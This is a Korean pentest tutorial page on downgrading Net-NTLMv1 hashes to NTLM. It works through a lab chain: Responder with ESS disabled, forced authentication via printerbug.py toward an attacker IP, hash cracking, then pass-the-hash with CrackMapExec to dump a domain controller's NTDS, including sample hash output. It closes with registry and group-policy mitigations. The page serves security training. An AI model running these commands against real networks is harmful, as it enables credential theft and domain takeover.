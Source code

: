 # NTLM 다운그레이드

LLMNR, Nbt-NS, mDNS 포이즈닝 공격이나 강제 인증 공격으로 얻어진 Net-NTLMv1 해시들은 특정 조건이 맞을 때 NTLM 해시로 다운그레이드 공격을 할 수 있다. 다운그레이드 공격은 (복잡한) 암호학적 공격 (Cryptographic Attack) 관련된 공격이기 때문에 이 글에서는 설명하지 않는다. 관련 공격은 [이 레퍼런스](https://github.com/evilmog/ntlmv1-multi)를 참고하면 된다. 다운그레이드 해 얻어진 NTLM 해시는 Pass-the-Hash (PTH)을 통해 인증에 사용된다.

### 전제 조건

* 포이즈닝이나 강제 인증 공격으로 인증 트래픽과 해시를 얻을 것
* 해시를 얻기 전 NTLM Challenge 를 1122334455667788 로 설정할 것
* 얻은 해시가 Net-NTLMv1 일 것 (`HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel` 가 0, 1, 2 일 때)
* Responder의 `--disable-ess` 등의 플래그 사용으로 Extended Session Security가 비활성화 된 Net-NTLMv1 해시일 것

### 실습

{% tabs %}
{% tab title="리눅스" %}
간단한 PoC를 위해 프린터 버그로 강제 인증을 실행하고, Responder로 해시를 받는다.

```
# Responder 실행 
responder -I <NIC> -v --disable-ess 

# 프린터버그 실행 
git clone https://github.com/dirkjanm/krbrelayx
python3 printerbug.py '<domain>/<user>:<pass>'@<fqdn/IP> <attackerIP>
```
{% endtab %}

{% tab title="윈도우-비컨" %}
Inveigh + SpoolSample 혹은 Petitpotam 을 이용
{% endtab %}
{% endtabs %}

![앞 뒤가 똑같은 1577](<../.gitbook/assets/ntlm (1).png>)

ESS가 비활성화된 Net-NTLMv1 은 `:` 를 기준으로 같은 문자열이 나온다. 이제 이 문자열을 `NTHASH:(문자열)` 형태로 `crack.sh` 라는 홈페이지에 첨부를 하면 NTLM 문자열을 받아올 수 있다.

> 모의해킹을 진행하거나 레드팀 작전 수행 시 고객사 네트워크에서 얻은 해시를 랜덤한 홈페이지에 업로드 하면 안된다. 이 페이지의 실습은 연습용이기 때문에 crack.sh를 사용한다.
>
> 실무였다면 crack.sh가 아니라 hashcat을 이용해 Net-NTLMv1 -> NTLM 다운 그레이드를 실행한다

![](../.gitbook/assets/ntlmv1-crack-sh.png)

이런식으로 첨부하면 이메일로 다운그레이드 된 NTLM 해시가 온다. 이제 이 해시를 이용해 PTH를 해 사용자 인증을 한다.

이 실습에서는 강제 인증을 통해 도메인 컨트롤러의 머신 계정 NTLM 해시를 얻었다. 따라서 이를 이용해 NTDS 덤프 공격을 실행한다.

```
┌──(root㉿kali)-[/opt/NetNTLMtoSilverTicket]
└─# cme smb 192.168.40.150 -u "DC01$" -H '01d90becd940616e8d0e7540f5e725dc' -d choi.local --ntds 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\DC01$:01d90becd940616e8d0e7540f5e725dc 
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
< ... > 
```

### 대응 방안

NTLM 다운그레이드 공격의 근본적 원인은 바로 타겟 호스트가 Net-NTLMv1 해시를 반환했다는 것이다. 윈도우 10과 윈도우 서버 2016 이후 기본적으로 Net-NTLMv2 를 사용하도록 되어있지만, 아직도 많은 네트워크에서는 하위 호환성을 위해 Net-NTLMv1 이나 심지어는 NTLM 해시를 사용하도록 되어있는 곳도 있다.

따라서 하위 호환성 테스트를 거친 뒤 Net-NTLMv1 을 사용하는 프로세스나 어플리케이션이 없다면 모든 호스트에서 Net-NTLMv2 를 사용하도록 설정한다.

```
# 레지스트리
HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel 
- 3 이상으로 설정

# 그룹 정책 
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network security: LAN Manager authentication level
- 3 이상으로 설정 
```

### 레퍼런스

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://github.com/evilmog/ntlmv1-multi" %}

{% embed url="https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level" %}
